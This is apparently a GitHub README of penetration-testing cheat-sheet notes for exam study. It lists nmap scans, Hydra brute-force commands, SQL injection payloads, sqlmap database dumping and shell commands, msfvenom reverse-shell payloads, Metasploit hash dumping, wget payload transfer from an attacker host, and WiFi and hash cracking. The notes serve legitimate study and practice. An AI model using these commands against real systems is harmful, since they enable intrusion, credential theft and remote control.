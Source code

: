 # OffSec-Notes
Repository created for keeping notes on various topics, vulnerabilities and tools useful in penetration testing. 

# Reconnaissance

### Some Common Ports

 Port     | Service  | Protocol          |
| --------|:--------:| -----------------:|
| 21      | FTP      |    TCP, UDP, SCTP |
| 22      | SSH      |    TCP, UDP, SCTP |
| 137     | NetBIOS  |    TCP, UDP       |
| 161     | SNMP     |    UDP            |
| 445     | SMB      |    TCP, UDP       |
| 3389    | RDP      |    TCP            |

<details>
<summary>nmap</summary>

```sudo nmap -sn 192.168.0.0/24``` - Check for hosts only, disable port scan (-sn).

```nmap -sT [IP]``` - Use TCP connect scan (-sT) if not root/sudo user. Only option for non sudoers.

```sudo nmap [IP] ``` -  By default nmap uses TCP SYN scan (-sS), but this should be used only from root/sudo user.

```sudo nmap -sV -O -v [IP] -p- -oN [Filename.txt]``` - Default SYN scan with enabled version detection (-sV) and OS detection (-O). Additional flags - verbose mode (-v), all ports (-p-), output to .txt file (-oN). 

```sudo nmap -A [IP]``` - Default SYN scan with enabled OS detection, version detection, script scanning, and traceroute (-A).

```sudo nmap --script http-methods [IP]``` - Default SYN scan with specific script (--script). As an example script *http-methods* (enumerates allowed HTTP methods) is used.

```sudo nmap -sU [IP]``` - Performs UDP scan (-sU).

```-n``` - Tells Nmap to never do reverse DNS resolution on the active IP addresses it finds. Since DNS can be slow even with Nmap's built-in parallel stub resolver, this option reduces scanning times.

Useful nmap scripts:

 Script   | Service  | Description |
|:--------|:--------|:-----------|
| smb-os-discovery.nse    | SMB (445)  | Enumerate OS, domain name,etc. |
| smb-enum-users.nse      | SMB (445)  | Used to enumerate all users on remote Windows system using SAMR enumeration and LSA bruteforcing. |
| smb-enum-shares.nse     | SMB (445)  | SMB shares. |

</details>

# Brute-force
<details>
<summary>Hydra</summary>

```sudo hydra -l <username> -P <wordlist> [URL] ssh``` - Basic Hydra command for brute-forcing ssh password. Works similarly with other protocols such as FTP.

```sudo hydra -l <username> -P <wordlist> [base_URL] http-post-form "<path>:<login_credentials>:<invalid_response>"``` - Hydra command for HTTP POST form. Path need to be specified seperately from base URL.

</details>

# SQL Injection

For SQL injection focused task either perform the injection manually or use sqlmap tool. Check fields using single quote or encoded single quote.

```blah' or 1=1 --``` - Basic login bypass payload. Adjust for specific case.

```blah';exec master..xp_cmdshell 'ping [URL] -l 65000 -t'; --``` - Example command to pop shell through sql injection.

<details>
<summary>sqlmap</summary>

```sudo sqlmap -u “[URL]” --cookie="[cookie_value]" --dbs``` - Initial command to enumerate databases (--dbs). Add cookie values if necessary (--cookie).

```sudo sqlmap -u “[URL]” -D [database_name] --tables``` - Enumerate tables in the specified database (--tables).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --columns``` - Enumerate columns in the specified table (--columns).

```sudo sqlmap -u “[URL]” -D [database_name] -T [table_name] --dump``` - Dump all data from table (--dump).

```sudo sqlmap -u “[URL]” --os-shell``` - Pop shell through sqlmap (--os-shell).

```sudo sqlmap -r [filename] --batch -v 5 | tee [output]``` - Use sqlmap with request from file (-r), for example, captured by Burp. This command also uses standard behaviour (--batch) and saves the output to a file (| tee)


</details>

# Metasploit

### Handy Metasploit modules

 Module    | Service  | Description       |
| --------|:--------:|:-----------------|
| smb_login     | SMB      |    Brute-force SMB credentials. |
| smb_version   | SMB      |    Scan for SMB version.        |
| smb_enumshares| SMB      |    Enumerates SMB shares.       |
| smart_hashdump   | Windows(any)    | ```run post/windows/gather/smart_hashdump``` - Use this when in meterpreter shell and want to search for Windows hashes.        | 
| exploit/multi/handler| Any      |    Use this to catch shell.       |

<details>
<summary>msfvenom</summary>

### Msfvenom Payload Examples

```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf``` - Linux.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe``` - Windows.

```msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php``` - PHP.

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp``` - ASP.

 ```msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py``` - Python.

 Refer to "Transfering Files" section in order to see details how to upload these shells.

</details>

# Android hacking
<details>
<summary>ADB</summary>

```adb devices``` - Check for devices connected to the host.

```adb shell``` - Enter phone terminal.

```adb shell pm path [package_name]``` - Check path for given app package.

Package names can be viewed via Google Play store. For example: https://play.google.com/store/apps/details?id=com.swapcard.apps.android.blackhat&hl=en_IN

Package name in this case is "com.swapcard.apps.android.backhat"

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/31e2fce7-9d1e-4b85-9ae3-49e13fc81c48)

</details>

# Cryptography
<details>
<summary>hashcat</summary>
Useful sites for online hashes:
  
- https://hashes.com
- https://hashes.com/en/tools/hash_identifier

Can also use hashid to identify hash type:

```hashid -m [hash]```
- m to show corresponding hashcat mode.

Standard hashcat command:

```hashcat -a 0 -m [hash_mode_id] [hash] [wordlist]``` 
- Straight attack mode suited for wordlist (-a 0).
- Specified hash type (-m).

If hashcat does not work consider using John the Ripper.

------

</details>

<details>
<summary>John the Ripper</summary>

```john --format=nt --wordlist=<path-to-wordlist> <hash>```
- Set hash format (--format=).
- Set wordlist (--wordlist=).

For hash formats check:
https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

------

</details>

</details>

<details>
<summary>Other Tools</summary>

**Hashmyfiles** - For calculating and comparing hashes of files. Can be used to compare hashes and find tempered data.

**CryptoForge** - For easy encrypting and decrypting using password.

**BcTextEncodes** - For encoding and decoding text in file (.hex). 

**Cryptool** - For encryption/decryption of hex data - by manipulating the key length. This tool can perform brute-force analysis.

**Veracrypt** - For hiding and encrypting disk partitions. Can also be used to open encrypted disk partition (mount). Outer and inner partitions has separate passwords.

</details>

# Malware Threats

<details>
<summary>RAT's</summary>

You need to target the right IP and port number (try default first).
You need to use the right tool from the available.

Example tools to establish a connection to a RAT:
- njRAT
- MoSucker
- ProRat
- Theef
- HTTP RAT

</details>

<details>
<summary>Malware Analysis Tools</summary>

**DIE (Detect it Easy)** - Scan and analyze .elf files.

</details>

# Steganography
<details>
<summary>Tools</summary>

**SNOW** - [placeholder]. 

**Steghide** - [placeholder].

```steghide extract -sf [file]``` - Extract confidential file from, for example, picture .jpg file.

```stegcracker <file> [wordlist]``` - Crack password protected file.

</details>

# Traffic Sniffing
<details>
<summary>Wireshark</summary>

```tcp.flags.syn==1``` - Filter apply example, this one searches for SYN packets.

Follow streams to check for interesting data. Rightclick on packet -> Follow -> TCP Stream (can be other protocols).

To check for files in the conversations use export option. File -> Export -> HTTP (can be other protocol) -> sort by content-type to see if there are any .txt files for example.

![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/b0417cc6-a20b-450a-bce0-4588031e210e)


### View capture file properties to look for comments.
![image](https://github.com/MaxLazerhawk/OffSec-Notes/assets/53828427/39f702e0-c213-457b-9695-cb336a4488b9)


</details>

# Transfering Files

```python3 -m http.server 9000``` - Set up HTTP server on attacjubg machine.

```wget http://[ATTACKING_IP]:9000/[filename]``` - Use on victim machine to download.

OR use SCP, SFTP or FTP protocols.

# Wireless Attacks
<details>
<summary>aircrack-ng</summary>
Used to crack .cap files. WEP, WPA/WPA2 wireless networks.

```aircrack-ng [filename].cap```

- Works for WEP.
- If the capture file has sufficient packets aircrack will be able to crack it.

```aircrack-ng [filename].cap -w [file]``` 

- Works for WPA.
- Dictionary added (-w).

</details>

# Useful Links

### Notes:

https://github.com/infovault-Ytube/CEH-Practical-Notes

https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master

https://github.com/TheCyberpunker/CEH-Practical-Notes

https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052

https://ceh-practical.cavementech.com/

### Tool Documentation:

https://github.com/horsicq/Detect-It-Easy
